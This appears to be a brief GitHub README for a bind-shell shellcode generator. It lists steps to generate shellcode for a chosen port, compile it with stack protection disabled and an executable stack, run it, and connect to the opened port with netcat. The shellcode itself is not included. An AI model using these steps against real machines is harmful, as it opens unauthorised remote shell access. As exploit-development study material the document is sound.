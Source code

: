 1. Run ./shellcode-generator.py PortNumber
    - (ie ./shellcode-generator.py 4444)
  
2. Paste shellcode into shellcode.c

3. compile with: gcc shellcode.c -o shellcode -fno-stack-protector -z execstack

4. ./shellcode

5. nc -nv ipaddress-of-host port-number

6. done
